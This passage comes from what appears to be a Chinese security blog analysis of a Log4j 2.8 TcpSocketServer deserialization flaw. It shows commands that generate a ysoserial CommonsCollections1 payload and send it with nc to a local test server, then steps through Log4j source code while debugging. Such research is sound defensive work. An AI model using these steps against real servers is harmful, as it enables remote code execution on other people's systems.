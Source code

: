 `java -cp log4j-core-2.8.jar:log4j-api-2.8.jar:jcommander-1.48.jar:commons-collections-3.1.jar org.apache.logging.log4j.core.net.server.TcpSocketServer  -p 7777`

然后利用ysoserial生成一个反序列化的payload

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 "wireshark" &gt; commons1.ser`

然后直接利用nc发送payload:

`nc 127.0.0.1 7777 &lt; commons1.ser`

成功弹出wireshark:

[![](https://p3.ssl.qhimg.com/t0161b2d832a23f8382.png)](https://p3.ssl.qhimg.com/t0161b2d832a23f8382.png)

到头来还是利用的commons-collections的pop链利用漏洞

### <a class="reference-link" name="%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90"></a>调试分析

为了方便调试，我创建一个idea工程

[![](https://p0.ssl.qhimg.com/t010c0dcb52d536f447.png)](https://p0.ssl.qhimg.com/t010c0dcb52d536f447.png)

将我们需要的几个jar包添加到lib中，然后创建一个类，这个类的代码如图所示很简单，就只是调用`TcpSocketServer.main()`而已，然后我们运行这个Main类，然后下断点就可以调试了，当然，我们也可以采用idea远程调试的方式。我们先来看一看TcpSocketServer的main方法

```
public static void main(final String[] args) throws Exception `{`
    final CommandLineArguments cla = BasicCommandLineArguments.parseCommandLine(args, TcpSocketServer.class, new CommandLineArguments());
    if (cla.isHelp()) `{`
        return;
    `}`
    if (cla.getConfigLocation() != null) `{`
        ConfigurationFactory.setConfigurationFactory(new ServerConfigurationFactory(cla.getConfigLocation()));
    `}`
    final TcpSocketServer&lt;ObjectInputStream&gt; socketServer = TcpSocketServer
            .createSerializedSocketServer(cla.getPort(), cla.getBacklog(), cla.getLocalBindAddress());
    final Thread serverThread = socketServer.startNewThread();
    if (cla.isInteractive()) `{`
        socketServer.awaitTermination(serverThread);
    `}`
`}`
```

BasicCommandLineArguments这个类一看名字就是负责解析命令行参数的，我们不多关注了，直接看createSerializedSocketServer()方法，看起来是创建了一个网络监听，跟进去：

```
public static TcpSocketServer&lt;ObjectInputStream&gt; createSerializedSocketServer(final int port, final int backlog,
            final InetAddress localBindAddress) throws IOException `{`
        LOGGER.entry(port);
        final TcpSocketServer&lt;ObjectInputStream&gt; socketServer = new TcpSocketServer&lt;&gt;(port, backlog, localBindAddress,
                new ObjectInputStreamLogEventBridge());
        return LOGGER.exit(socketServer);
    `}`
```
